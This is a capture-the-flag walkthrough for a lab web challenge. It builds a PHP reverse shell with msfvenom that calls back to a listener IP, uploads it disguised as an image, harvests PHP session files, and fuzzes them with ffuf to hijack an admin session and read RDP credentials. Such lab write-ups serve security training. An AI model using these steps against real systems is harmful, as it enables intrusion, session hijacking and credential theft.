# Challenge #2 - Foo Hosting 3

## Objectives

- The web application is vulnerable to "unrestricted file upload," and your goal is to catch some information about your competitor: William Lete!
- We know that Mr. Lete has a problem with a server. He has just opened a ticket asking for support. We also know that he has sent the server address and the RDP credentials!
- Oh, one more thing. Mr. Lete has forgotten to logout, and so his session is still alive.

You are Martin Cameron; your credentials are **cmartin/ILoveMum**.

- You have to find the RDP password and the session identifier related to his session (the content of the cookie PHPSESSID)

## hints

- Session Hijacking

## Steps

Login the system using the given credentials.

Go to the support page.

```
http://2.challenge.session.site/support.php
```

This form is vulnerable to "unrestricted file upload".

Craft a php shell to upload. Replace the IP with your own VPN IP. The extension must be a valid

```
msfvenom -p php/reverse_php lhost=10.100.13.200 lport=1234 -o shell.jpg
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 3034 bytes
Saved as: shell.jpg
```

Turn on burp suite intercept. And send the form with your shell.jpg.

On the burp side, rename the file on the request to shell.php

Open a terminal and start netcat.

```
nc -nvlp 1234
```

Now click on the php shell link.

All the PHP session cookies are on the folder /var/lib/php5.

```
ls /var/lib/php5

sess_58j7b4gkqk9nd4s55921jrg0g1
sess_d51a01gc8rl8103c8716hj6an7
sess_dsbfoynso8dmsdhfspd454rwdf2
sess_ef8upkbsrudo07d4i1k2emsor5
sess_fv961m3ignco0uhfepcacngev7
sess_jhvsqbn99ob80khtfleqik75b7
sess_soqiii61e7rs2hrmar6d05p1i2
sess_uje7drjsj5hp0jghooms4k6474
```

Save all session names in a file named sessions without the prefix "sess_"

```
58j7b4gkqk9nd4s55921jrg0g1
d51a01gc8rl8103c8716hj6an7
dsbfoynso8dmsdhfspd454rwdf2
ef8upkbsrudo07d4i1k2emsor5
fv961m3ignco0uhfepcacngev7
jhvsqbn99ob80khtfleqik75b7
soqiii61e7rs2hrmar6d05p1i2
uje7drjsj5hp0jghooms4k6474
```

Now run fuff to search what one is valid.

```
ffuf -c -v -w sessions -u http://2.challenge.session.site/tickets.php --cookie "PHPSESSID=FUZZ" -fc 404 -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://2.challenge.session.site/tickets.php
 :: Wordlist         : FUZZ: sessions
 :: Header           : Cookie: PHPSESSID=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response status: 404
 :: Filter           : Response size: 0
________________________________________________

[Status: 200, Size: 4427, Words: 180, Lines: 152]
| URL | http://2.challenge.session.site/tickets.php
    * FUZZ: fv961m3ignco0uhfepcacngev7

[Status: 200, Size: 5047, Words: 283, Lines: 163]
| URL | http://2.challenge.session.site/tickets.php
    * FUZZ: dsbfoynso8dmsdhfspd454rwdf2

:: Progress: [8/8] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

You must find two valid sessions, your session and the other is from admin.

If you found the two valid sessions, replace your PHPSESSID the the admin one and inpersonate the admin.

Replace the admin PHPSESSID cookie and open the tickets page on the browser.

```
http://2.challenge.session.site/tickets.php
```

Here is the RDP credentials.

```
GENERAL SUPPORT
-
Internal Server Error
Dear support, I'm receiving this message since 4 days:
"Internal Server Error.
The server encountered an internal error or misconfiguration and was unable to complete your request. Please contact the server administrator, and inform them of the time the error occurred, and anything you might have done that may have caused the error.
More information about this error may be available in the server error log."

My server error logs are empty. Please, help me to solve the problem. These are my credential for the server in question:

Server IP: 203.0.113.152
RDP User: adminSnackServer
RDP Password: <<$RDPPASSWORD>>
```